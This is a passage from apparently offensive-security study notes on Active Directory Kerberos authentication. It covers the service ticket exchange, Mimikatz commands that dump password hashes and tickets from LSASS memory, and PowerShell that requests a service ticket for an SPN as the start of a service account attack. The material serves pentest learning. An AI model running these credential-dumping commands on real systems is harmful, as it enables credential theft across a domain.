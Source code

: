 4. If all checks are made, the service responds to the client with a ticket granting server reply packet, made of three parts. The first two parts are encrypted using the session key of creation of the TGT and the service ticket is encrypted using the password hash of the service account registered with the SPN in question.
   1. The SPN to which access has been granted
   2. A session key to be used between the client and the SPN
   3. A service ticket with username and group membership as well as the newly-created session key
5. Once authentication with the KDC is complete and the client has a session key and service ticket, it may continue with authentication. First, it needs to send an **application request**, which includes the username and timestamp encrypted with the session key associated with the service ticket along with the service ticket itself. The application server decrypts the service ticket and extracts the username and session key. It can now decrypt the username from the request and check if the two match.&#x20;
6. The user is authenticated.

### Cached Credential Storage and Retrieval

Password hashes must be stored somewhere to validate TGT requests. In current versions, these are stored in LSASS memory space. &#x20;

While data structures used to store these hashes are not publicly documented and encrypted, we can use Mimikatz to extract hashes from Windows 10. This must be run as a user with system privileges.

```
C:\Tools\active_directory> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

```

This should dump all password hashes.

&#x20;We can also use mimikatz to view tickets

```
mimikatz # sekurlsa::tickets
```

### Service Account Attacks

When a user wants to access a resources hosted by an SPN, the client requests a service ticket generated by the domain controller. The ticket is then decrypted and validated.&#x20;

However, no checks are performed on whether the user can access the service at all. Therefore, we can request a service ticket if we know the SPN and extract information from local memory and save it to disk. From PowerShell, we can create the ticket.

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```
